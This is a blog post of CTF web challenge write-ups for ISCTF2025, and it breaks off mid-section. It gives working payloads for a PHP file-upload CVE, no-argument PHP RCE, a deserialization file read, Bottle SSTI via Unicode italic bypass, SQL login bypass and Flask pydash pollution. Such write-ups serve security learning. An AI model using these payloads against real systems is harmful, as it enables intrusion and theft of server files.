---
title: "ISCTF2025Web题解"
date: 2025-12-26T14:31:33+08:00
summary: " "
url: "/posts/ISCTF2025Web题解/"
categories:
  - "赛题wp"
tags:
  - "ISCTF2025"
draft: false
---

# b@by n0t1ce b0ard

## #CVE-2024-12233

题目提示

```java
在你以后的 CTF 历程中，你会遇到不少的大型 php 项目审计。

然而，大多数情况下，你不一定需要完全自己审计出一个原创的漏洞（0day），而是可以利用已有的漏洞进行攻击（nday）。

CVE 是这个世界上最大的漏洞数据库。复现 CVE 是每一个 web 手不可或缺的能力。接下来，尝试用好你的 google，去复现一个已经发布的 php 项目漏洞。

CVE 编号：CVE-2024-12233
```

既然给编号了就去看看这个漏洞：https://nvd.nist.gov/vuln/detail/CVE-2024-12233，大致意思是组件 Profile Picture Handler 中 /registration.php 文件对上传的文件处理逻辑不够导致存在任意文件上传

把附件下下来进行代码审计吧

有一个txt挺显眼的，给了用户和管理员的账号密码

既然是registration.php，那就看看这段代码

```php
<?php
require('connection.php');
extract($_POST);
if(isset($save))
{
//check user alereay exists or not
$sql=mysqli_query($conn,"select * from user where email='$e'");

$r=mysqli_num_rows($sql);

if($r==true)
{
$err= "<font color='red'>This user already exists</font>";
}
else
{
//dob
$dob=$yy."-".$mm."-".$dd;

//hobbies
$hob=implode(",",$hob);

//image
$imageName=$_FILES['img']['name'];


//encrypt your password
$pass=md5($p);


$query="insert into user values('','$n','$e','$pass','$mob','$gen','$hob','$imageName','$dob',now())";
mysqli_query($conn,$query);

//upload image

mkdir("images/$e");
move_uploaded_file($_FILES['img']['tmp_name'],"images/$e/".$_FILES['img']['name']);


$err="<font color='blue'>Registration successfull !!</font>";

}
}


?>
<h2><b>REGISTRATION FORM</b></h2>
		<form method="post" enctype="multipart/form-data">
			<table class="table table-bordered">
	<Tr>
		<Td colspan="2"><?php echo @$err;?></Td>
	</Tr>

				<tr>
					<td>Your Name</td>
					<Td><input  type="text"  class="form-control" name="n" required/></td>
				</tr>
				<tr>
					<td>Your Email </td>
					<Td><input type="email"  class="form-control" name="e" required/></td>
				</tr>

				<tr>
					<td>Your Password </td>
					<Td><input type="password"  class="form-control" name="p" required/></td>
				</tr>

				<tr>
					<td>Your Mobile No. </td>
					<Td><input  class="form-control" type="number" name="mob" required/></td>
				</tr>

				<tr>
					<td>Select Your Gender</td>
					<Td>
				Male<input type="radio" name="gen" value="m" required/>
				Female<input type="radio" name="gen" value="f"/>
					</td>
				</tr>

				<tr>
					<td>Choose Your Hobbies</td>
					<Td>
					Reading<input value="reading" type="checkbox" name="hob[]"/>
					Singing<input value="singin" type="checkbox" name="hob[]"/>

					Playing<input value="playing" type="checkbox" name="hob[]"/>
					</td>
				</tr>


				<tr>
					<td>Upload  Your Image </td>
					<Td><input class="form-control" type="file" name="img" required/></td>
				</tr>

				<tr>
					<td>Date of Birth</td>
					<Td>
					<select name="yy" required>
					<option value="">Year</option>
					<?php
					for($i=1950;$i<=2016;$i++)
					{
					echo "<option>".$i."</option>";
					}
					?>

					</select>

					<select name="mm" required>
					<option value="">Month</option>
					<?php
					for($i=1;$i<=12;$i++)
					{
					echo "<option>".$i."</option>";
					}
					?>

					</select>


					<select name="dd" required>
					<option value="">Date</option>
					<?php
					for($i=1;$i<=31;$i++)
					{
					echo "<option>".$i."</option>";
					}
					?>

					</select>

					</td>
				</tr>

				<tr>


<Td colspan="2" align="center">
<input type="submit" class="btn btn-success" value="Save" name="save"/>
<input type="reset" class="btn btn-success" value="Reset"/>

					</td>
				</tr>
			</table>
		</form>
	</body>
</html>

```

看到image参数并没有做任何的处理，那就尝试打文件上传

先上传一个`phpinfo`，注册成功后根据代码

```php
mkdir("images/$e");
move_uploaded_file($_FILES['img']['tmp_name'],"images/$e/".$_FILES['img']['name']);
```

访问`/images/1@qq.com/1.php`就出来了



那就正常传马打就行了

# ezrce

## #无参数RCE

```php
<?php
highlight_file(__FILE__);

if(isset($_GET['code'])){
    $code = $_GET['code'];
    if (preg_match('/^[A-Za-z\(\)_;]+$/', $code)) {
        eval($code);
    }else{
        die('师傅，你想拿flag？');
    }
}
```

先用个脚本输出可用字符吧，懒得看了

```php
<?php
for ($i=32;$i<127;$i++){
        if (preg_match("/^[A-Za-z\(\)_;]+$/", chr($i))){
            echo chr($i);
        }
}

// ();ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz
```

只能用字母和括号以及逗号下划线，那不就可以打无参RCE进行函数嵌套吗

```php
?code=print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));
```



看到flag在根目录，读半天读不出来，算了，直接用请求头无参数RCE去打吧

```http
GET /?code=eval(pos(getallheaders())); HTTP/1.1
Host: challenge.bluesharkinfo.com:27283
Pragma: no-cache
Cache-Control: no-cache
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=561681024d70a205fd5c54ffd41bb975
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Flag: phpinfo();

```



其实这道题的话最后也可以直接用chdir去做

```bash
?code=print_r(scandir(dirname(dirname(dirname(getcwd())))));
?code=chdir(dirname(dirname(dirname(getcwd()))));readfile(flag);
```

这样也能把flag读出来

# 来签个到吧

## 反序列化+文件读取

这个题不知道我的是不是预期解，感觉还是比较好玩

先看附件

在docker文件中可以看到是php8.2版本，并且在sh文件中发现flag在根目录且没有设置权限

index.php

```php
<?php
require_once "./config.php";
require_once "./classes.php";

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $s = $_POST["shark"] ?? '喵喵喵?';

    if (str_starts_with($s, "blueshark:")) {
        $ss = substr($s, strlen("blueshark:"));

        $o = @unserialize($ss);

        $p = $db->prepare("INSERT INTO notes (content) VALUES (?)");
        $p->execute([$ss]);

        echo "save sucess!";
        exit(0);
    } else {
        echo "喵喵喵?";
        exit(1);
    }
}

$q = $db->query("SELECT id, content FROM notes ORDER BY id DESC LIMIT 10");
$rows = $q->fetchAll(PDO::FETCH_ASSOC);
?>
```

post传参shark并且以`blueshark:`开头，后面的内容就是我们需要反序列化的内容，并把我们传入的序列化字符串存入数据库中的content字段

如果不是post传参的话就会查询并返回数据结果

classes.php

```php
<?php
class FileLogger {
    public $logfile = "/tmp/notehub.log";
    public $content = "";

    public function __construct($f=null) {
        if ($f) {
            $this->logfile = $f;
        }
    }

    public function write($msg) {
        $this->content .= $msg . "\n";
        file_put_contents($this->logfile, $this->content, FILE_APPEND);
    }

    public function __destruct() {
        if ($this->content) {
            file_put_contents($this->logfile, $this->content, FILE_APPEND);
        }
    }
}

class ShitMountant {
    public $url;
    public $logger;

    public function __construct($url) {
        $this->url = $url;
        $this->logger = new FileLogger();
    }

    public function fetch() {
        $c = file_get_contents($this->url);
        if ($this->logger) {
            $this->logger->write("fetched ==> " . $this->url);
        }
        return $c;
    }

    public function __destruct() {
        $this->fetch();
    }
}
?>
```

一开始想打file_get_contents伪协议读取文件的，但是他没有打印输出，只会返回，但是写文件的话没找到哪里可以解析触发的地方

看到里面有一个api.php

```php
<?php
require_once "./config.php";
require_once "./classes.php";

$id = $_GET["id"] ?? '喵喵喵?';

$s = $db->prepare("SELECT content FROM notes WHERE id = ?");
$s->execute([$id]);
$row = $s->fetch(PDO::FETCH_ASSOC);

if (! $row) {
    die("喵喵喵?");
}

$cfg = unserialize($row["content"]);

if ($cfg instanceof ShitMountant) {
    $r = $cfg->fetch();
    echo "ok!" . "<br>";
    echo nl2br(htmlspecialchars($r));
}
else {
    echo "喵喵喵?";
}
?>
```

看到这就有一个大致的思路了，这里会查询我们指定的id对应的content字段内容，并进行反序列化，如果反序列化的结果中有ShitMountant类的实例化对象，就会调用fetch函数并输出函数返回结果，这也和我一开始看到那个函数没有打印只有return对应上了

在classes.php中有一个log文件，尝试验证我们的想法

```php
class ShitMountant {
    public $url;
    public $logger;
}
$a = new ShitMountant();
$a -> url = "file:///tmp/notehub.db";
echo urlencode(serialize($a));
```

将序列化字符串写入数据库

```http
/index.php
shark=blueshark:O%3A12%3A%22ShitMountant%22%3A2%3A%7Bs%3A3%3A%22url%22%3Bs%3A22%3A%22file%3A%2F%2F%2Ftmp%2Fnotehub.db%22%3Bs%3A6%3A%22logger%22%3BN%3B%7D

blueshark:O%3A12%3A%22ShitMountant%22%3A2%3A%7Bs%3A3%3A%22url%22%3Bs%3A12%3A%22file%3A%2F%2F%2Fflag%22%3Bs%3A6%3A%22logger%22%3BN%3B%7D
```

GET访问一下index.php可以看到有回显结果



然后在api.php中进行反序列化并触发fetch函数



是可以的，结合我们一开始看到sh文件里面flag的位置直接file协议读根目录flag就行了

# 难过的bottle

## #ssti斜体字绕过

代码有点长，分开来分析吧

```python
from bottle import route, run, template, post, request, static_file, error
import os
import zipfile
import hashlib
import time
import shutil


# hint: flag is in /flag

UPLOAD_DIR = 'uploads'
os.makedirs(UPLOAD_DIR, exist_ok=True)
MAX_FILE_SIZE = 1 * 1024 * 1024  # 1MB

BLACKLIST = ["b","c","d","e","h","i","j","k","m","n","o","p","q","r","s","t","u","v","w","x","y","z","%",";",",","<",">",":","?"]

def contains_blacklist(content):
    """检查内容是否包含黑名单中的关键词（不区分大小写）"""
    content = content.lower()
    return any(black_word in content for black_word in BLACKLIST)

def safe_extract_zip(zip_path, extract_dir):
    """安全解压ZIP文件（防止路径遍历攻击）"""
    with zipfile.ZipFile(zip_path, 'r') as zf:
        for member in zf.infolist():
            member_path = os.path.realpath(os.path.join(extract_dir, member.filename))
            if not member_path.startswith(os.path.realpath(extract_dir)):
                raise ValueError("非法文件路径: 路径遍历攻击检测")
            
            zf.extract(member, extract_dir)
```

提示flag在根目录flag文件，上传目录是uploads，限制上传文件大小是1mb

一个黑名单校验函数和一个解压文件的安全函数

```python
@post('/upload')
def upload():
    """处理文件上传"""
    zip_file = request.files.get('file')
    if not zip_file or not zip_file.filename.endswith('.zip'):
        return '请上传有效的ZIP文件'
    
    zip_file.file.seek(0, 2)  #指针移动到文件末尾
    file_size = zip_file.file.tell()	#获取当前位置，其实就是获取文件大小
    zip_file.file.seek(0)  #指针移动到开头
    
    if file_size > MAX_FILE_SIZE:
        return f'文件大小超过限制({MAX_FILE_SIZE/1024/1024}MB)'
    
    timestamp = str(time.time())
    unique_str = zip_file.filename + timestamp	#拼接文件名和时间戳
    dir_hash = hashlib.md5(unique_str.encode()).hexdigest()
    extract_dir = os.path.join(UPLOAD_DIR, dir_hash)
    os.makedirs(extract_dir, exist_ok=True)
    
    zip_path = os.path.join(extract_dir, 'uploaded.zip')
    zip_file.save(zip_path)
    
    try:
        safe_extract_zip(zip_path, extract_dir)	#解压zip文件
    except (zipfile.BadZipFile, ValueError) as e:
        shutil.rmtree(extract_dir) 
        return f'处理ZIP文件时出错: {str(e)}'
    
    files = [f for f in os.listdir(extract_dir) if f != 'uploaded.zip']
    
    return template('''
    ...
    ''', dir_hash=dir_hash, files=files)
```

文件上传函数，检测文件的后缀名是否是zip以及检查压缩包的大小

首先根据文件名和当前时间戳进行哈希后创建一个解压目录，随后将上传的zip文件保存到zip_path路径下

得出两个路径构造

```python
文件解压路径
extract_dir=/uploads/filename+时间戳的哈希值/
上传文件保存路径
zip_path  =/uploads/filename+时间戳的哈希值/uploaded.zip
```

然后就是安全解压函数，zip_path就是我们上传的文件，extract_dir就是解压路径

最后列出解压的文件列表

```python
@route('/view/<dir_hash>/<filename:path>')
def view_file(dir_hash, filename):
    file_path = os.path.join(UPLOAD_DIR, dir_hash, filename)
    
    if not os.path.exists(file_path):
        return "文件不存在"
    
    if not os.path.isfile(file_path):
        return "请求的路径不是文件"
    
    real_path = os.path.realpath(file_path)
    if not real_path.startswith(os.path.realpath(UPLOAD_DIR)):
        return "非法访问尝试"
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except:
        try:
            with open(file_path, 'r', encoding='latin-1') as f:
                content = f.read()
        except:
            return "无法读取文件内容（可能是二进制文件）"
    
    if contains_blacklist(content):
        return "文件内容包含不允许的关键词"
    
    try:
        return template(content)
    except Exception as e:
        return f"渲染错误: {str(e)}"
```

一个文件读取的函数，这里对文件内容进行了关键字的过滤，重点在于`return template(content)`这句话，我们跟进template函数看看



这是bottle里面的渲染函数，我之前也分析过写了篇文章：https://wanth3f1ag.top/2025/08/15/%E6%8E%A2%E7%A9%B6Bottle%E6%A1%86%E6%9E%B6%E7%9A%84%E4%B8%80%E4%BA%9B%E5%A5%BD%E7%8E%A9%E7%9A%84/?highlight=bottle#Bottle%E4%B8%AD%E5%A4%84%E7%90%86%E6%A8%A1%E6%9D%BF%E6%B8%B2%E6%9F%93

根据注释的写法，这个渲染函数的参数可以是一个模板文件路径也可以是一个模板字符串，如果不指定模板引擎的话默认就是SimpleTemplate

测一下是否存在ssti

先保存一个1.txt并压缩一下

```python
{{8*8}}
```

上传成功后点击查看



存在ssti的

回头看一下刚刚的黑名单

```python
BLACKLIST = ["b","c","d","e","h","i","j","k","m","n","o","p","q","r","s","t","u","v","w","x","y","z","%",";",",","<",">",":","?"]
```

这里把百分号禁了，没法用判断语法和import导入模块了

但是很细节的是这里把flag这四个字母去掉了，刚好符合斜字帖绕过无法处理纯字符串的问题

拉蒙特徐宝宝的文章：https://www.cnblogs.com/LAMENTXU/articles/18805019


所以我们构造poc

https://exotictext.com/zh-cn/italic/ 可以找到斜体字

```python
{{!ℴ𝓅ℯ𝓃('/flag').𝓇ℯa𝒹()}}
```

黑名单只是对原始内容做 `.lower() `后的 ASCII 子串匹配，没做 Unicode 规范化，所以 `ｏｐｅｎ、ｒｅａｄ `这种全角标识符不会被拦，但 Python 3 在解析时会把它们当成正常的 open、read。

压缩成压缩包上传就行了

# flag到底在哪

## #万能密码+文件上传

题目描述里有写爬虫什么的，那就是跟robots.txt文件有关，访问拿到一个/admin/login.php

是一个登录界面，测了一下username的sql注入发现不是，跑了弱口令也没跑出来

在password中进行万能密码就可以绕过验证登录了

```http
username=admin
password=' OR '1'='1
```



文件上传的界面，啥过滤都没有，直接打就行



# Who am I

## #修改模板查找路径

先注册一个用户登进去看一下

测了好一会没测出来，后面在登录页面抓包发现有一个type=1的参数，改为0后发现有新的路由/272e1739b89da32e983970ece1a086bd，是管理员后台路由

查看配置文件中看到有main.py



main.py

```python
from flask import Flask,request,render_template,redirect,url_for
import json
import pydash

app=Flask(__name__)

database={}
data_index=0
name=''

@app.route('/',methods=['GET'])
def index():
    return render_template('login.html')

@app.route('/register',methods=['GET'])
def register():
    return render_template('register.html')

@app.route('/registerV2',methods=['POST'])
def registerV2():
    username=request.form['username']
    password=request.form['password']
    password2=request.form['password2']
    if password!=password2:
        return '''
        <script>
        alert('前后密码不一致，请确认后重新输入。');
        window.location.href='/register';
        </script>
        '''
    else:
        global data_index
        data_index+=1
        database[data_index]=username
        database[username]=password
        return redirect(url_for('index'))

@app.route('/user_dashboard',methods=['GET'])
def user_dashboard():
    return render_template('dashboard.html')

@app.route('/272e1739b89da32e983970ece1a086bd',methods=['GET'])
def A272e1739b89da32e983970ece1a086bd():
    return render_template('admin.html')

@app.route('/operate',methods=['GET'])
def operate():
    username=request.args.get('username')
    password=request.args.get('password')
    confirm_password=request.args.get('confirm_password')
    if username in globals() and "old" not in password:
        Username=globals()[username]
        try:
            pydash.set_(Username,password,confirm_password)
            return "oprate success"
        except:
            return "oprate failed"
    else:
        return "oprate failed"

@app.route('/user/name',methods=['POST'])
def name():
    return {'username':user}

def logout():
    return redirect(url_for('index'))

@app.route('/reset',methods=['POST'])
def reset():
    old_password=request.form['old_password']
    new_password=request.form['new_password']
    if user in database and database[user] == old_password:
        database[user]=new_password
        return '''
        <script>
        alert('密码修改成功，请重新登录。');
        window.location.href='/';
        </script>
        '''
    else:
        return '''
        <script>
        alert('密码修改失败，请确认旧密码是否正确。');
        window.location.href='/user_dashboard';
        </script>
        '''

@app.route('/impression',methods=['GET'])
def impression():
    point=request.args.get('point')
    if len(point) > 5:
        return "Invalid request"
    List=["{","}",".","%","<",">","_"]
    for i in point:
        if i in List:
            return "Invalid request"
    return render_template(point)

@app.route('/login',methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
    type=request.form['type']
    if username in database and database[username] != password:
        return '''
        <script>
        alert('用户名或密码错误请重新输入。');
        window.location.href='/';
        </script>
        '''
    elif username not in database:
        return '''
        <script>
        alert('用户名或密码错误请重新输入。');
        window.location.href='/';
        </script>
        '''
    else:
        global name
        name=username    
        if int(type)==1:
            return redirect(url_for('user_dashboard'))
        elif int(type)==0:
            return redirect(url_for('A272e1739b89da32e983970ece1a086bd'))

if __name__=='__main__':
    app.run(host='0.0.0.0',port=8080,debug=False)
```

关注到一个路由/operate

```python
@app.route('/operate',methods=['GET'])
def operate():
    username=request.args.get('username')
    password=request.args.get('password')
    confirm_password=request.args.get('confirm_password')
    if username in globals() and "old" not in password:
        Username=globals()[username]
        try:
            pydash.set_(Username,password,confirm_password)
            return "oprate success"
        except:
            return "oprate failed"
    else:
        return "oprate failed" 
```

这里的话可以修改全局变量，并且参数可控，应该是一个利用点

然后关注到一个路由/impression

```python
@app.route('/impression',methods=['GET'])
def impression():
    point=request.args.get('point')
    if len(point) > 5:
        return "Invalid request"
    List=["{","}",".","%","<",">","_"]
    for i in point:
        if i in List:
            return "Invalid request"
    return render_template(point)
```

限制的有点狠啊，字符长度只能是5个

这里的话可以看到有渲染，存在ssti，但是从这方面去打估计是不现实的，我们跟进render_template函数看看

```python
def render_template(
    template_name_or_list: str | Template | list[str | Template],
    **context: t.Any,
) -> str:
    """Render a template by name with the given context.

    :param template_name_or_list: The name of the template to render. If
        a list is given, the first name to exist will be rendered.
    :param context: The variables to make available in the template.
    """
    app = current_app._get_current_object()  # type: ignore[attr-defined]
    template = app.jinja_env.get_or_select_template(template_name_or_list)
    return _render(app, template, context)
```

可以看到参数可以是单个模板文件名，也可以是已编译的模板对象或者模板名称列表，但是这个获取模板的路径是可以改的

jinja_loader.searchpath是 Jinja2 模板加载器中用于指定**模板文件搜索路径**的属性

本地测试一下

```python
from flask import Flask
app=Flask(__name__)

@app.route('/',methods=['GET'])
def index():
    return app.jinja_loader.searchpath

if __name__=='__main__':
    app.run(host='0.0.0.0',port=2333,debug=False)
```

